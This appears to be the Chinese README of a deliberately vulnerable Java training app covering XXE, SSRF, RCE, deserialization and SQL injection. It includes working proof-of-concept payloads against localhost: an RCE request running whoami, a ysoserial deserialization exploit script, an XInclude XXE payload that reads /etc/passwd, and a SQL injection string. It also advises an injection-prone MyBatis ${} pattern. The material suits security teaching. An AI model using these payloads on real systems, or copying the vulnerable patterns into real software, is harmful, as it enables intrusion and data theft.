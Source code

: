 # Java Security Code

## 介绍

该项目也可以叫做Java Vulnerability Code(Java漏洞代码)。

每个漏洞类型代码默认存在安全漏洞（除非本身不存在漏洞），相关修复代码在注释里。具体可查看每个漏洞代码和注释。

## 漏洞代码

- [XXE](https://github.com/JoyChou93/java-sec-code/blob/master/src/main/java/org/joychou/controller/XXE.java)
- [SSRF](https://github.com/JoyChou93/java-sec-code/blob/master/src/main/java/org/joychou/controller/SSRF.java)
- [URL重定向](https://github.com/JoyChou93/java-sec-code/blob/master/src/main/java/org/joychou/controller/URLRedirect.java)
- [IP伪造](https://github.com/JoyChou93/java-sec-code/blob/master/src/main/java/org/joychou/controller/IPForge.java)
- [XSS](https://github.com/JoyChou93/java-sec-code/blob/master/src/main/java/org/joychou/controller/XSS.java)
- [CRLF注入](https://github.com/JoyChou93/java-sec-code/blob/master/src/main/java/org/joychou/controller/CRLFInjection.java)
- [远程命令执行](https://github.com/JoyChou93/java-sec-code/blob/master/src/main/java/org/joychou/controller/Rce.java)
- [反序列化](https://github.com/JoyChou93/java-sec-code/blob/master/src/main/java/org/joychou/controller/Deserialize.java)
- [文件上传](https://github.com/JoyChou93/java-sec-code/blob/master/src/main/java/org/joychou/controller/FileUpload.java)
- [SQL注入](https://github.com/JoyChou93/java-sec-code/blob/master/src/main/java/org/joychou/controller/SQLI.java)

## 如何运行


### Tomcat

1. 生成war包 `mvn clean package`
2. 将target目录的war包，cp到Tomcat的webapps目录
3. 重启Tomcat应用


```
http://localhost:8080/java-sec-code-1.0.0/rce/exec?cmd=whoami
```
 
返回

``` 
Viarus
```

### IDEA

如果想在IDEA中直接运行，需要在IDEA中添加Tomcat配置，步骤如下：

```
Run -> Edit Configurations -> 添加TomcatServer(Local) -> Server中配置Tomcat路径 -> Deployment中添加Artifact选择java-sec-code:war exploded
```

![tomcat](https://github.com/JoyChou93/java-sec-code/raw/master/idea-tomcat.png)

配置完成后，右上角直接点击run，即可运行。

```
http://localhost:8080/rce/exec?cmd=whoami
```
 
返回

``` 
Viarus
```


## SSRF

针对SSRF具体利用，可以阅读我写的[这篇博文](https://joychou.org/java/javassrf.html)。

## 反序列化

打包ysoserial

``` 
git clone https://github.com/frohoff/ysoserial.git
mvn clean package -DskipTests
```

执行exp

```python
#coding: utf-8
#author: JoyChou
#date:   2018.07.17

import requests
import subprocess

def poc(url , gadget, command):
	ys_filepath = '/Users/Viarus/Downloads/ysoserial/target/ysoserial-0.0.6-SNAPSHOT-all.jar'
	popen = subprocess.Popen(['java', '-jar', ys_filepath, gadget, command], stdout=subprocess.PIPE)
	payload = popen.stdout.read()
	r = requests.post(url, data=payload, timeout=5)

if __name__ == '__main__':
	poc('http://127.0.0.1:8080/deserialize/test', 'CommonsCollections5', 'open -a Calculator')
```

## 文件上传

目前这类漏洞在spring里非常少，原因有两点：
1. 大多数公司上传的文件都会到cdn
2. spring的jsp文件必须在web-inf目录下才能执行

除非，可以上传war包到tomcat的webapps目录。所以就不YY写漏洞了。

访问`http://localhost:8080/file/`进行文件上传，上传成功后，再访问`http://localhost:8080/image/上传的文件名`可访问上传后的文件。

## XXE

### 支持Xinclude的XXE

2018年08月22日更新支持XInclude的XXE漏洞代码，详情见代码。

POC

```xml
<?xml version="1.0" ?>
<root xmlns:xi="http://www.w3.org/2001/XInclude">
 <xi:include href="file:///etc/passwd" parse="text"/>
</root>
```

URL编码后的payload

``` 
http://localhost:8080/xxe/DocumentBuilder_xinclude?xml=%3C%3fxml+version%3d%221.0%22+%3f%3E%0d%0a%3Croot+xmlns%3axi%3d%22http%3a%2f%2fwww.w3.org%2f2001%2fXInclude%22%3E%0d%0a+%3Cxi%3ainclude+href%3d%22file%3a%2f%2f%2fetc%2fpasswd%22+parse%3d%22text%22%2f%3E%0d%0a%3C%2froot%3E
```

详情可以查看[浅析xml之xinclude & xslt](https://www.anquanke.com/post/id/156227)

## SQL注入

### POC

访问`http://localhost:8080/sqli/jdbc?id=1' or 'a'='a`返回`joychou: 123 wilson: 456 lightless: 789`。

正常访问`http://localhost:8080/sqli/jdbc?id=1`返回`joychou: 123`

### 数据库表数据SQL

```sql

SET NAMES utf8mb4;
SET FOREIGN_KEY_CHECKS = 0;

-- ----------------------------
-- Table structure for users
-- ----------------------------
DROP TABLE IF EXISTS `users`;
CREATE TABLE `users` (
  `name` varchar(255) NOT NULL,
  `password` varchar(255) NOT NULL,
  `isAdmin` varchar(255) NOT NULL,
  `id` int(10) NOT NULL AUTO_INCREMENT,
  PRIMARY KEY (`id`)
) ENGINE=InnoDB AUTO_INCREMENT=4 DEFAULT CHARSET=utf8mb4 COLLATE=utf8mb4_0900_ai_ci;

-- ----------------------------
-- Records of users
-- ----------------------------
BEGIN;
INSERT INTO `users` VALUES ('joychou', '123', '1', 1);
INSERT INTO `users` VALUES ('wilson', '456', '0', 2);
INSERT INTO `users` VALUES ('lightless', '789', '0', 3);
COMMIT;

SET FOREIGN_KEY_CHECKS = 1;


```

### 说明

SQL注入修复方式采用预处理方式，修复见代码。Mybatis的`#{}`也是预处理方式处理SQL注入。

在使用了mybatis框架后，需要进行排序功能时，在mapper.xml文件中编写sql语句时，注意orderBy后的变量要使用${},而不用#{}。因为`#{}`变量是经过预编译的，${}没有经过预编译。虽然${}存在sql注入的风险，但orderBy必须使用`${}`，因为`#{}`会多出单引号`''`导致sql语句失效。为防止sql注入只能自己判断输入的值是否是否存在SQL。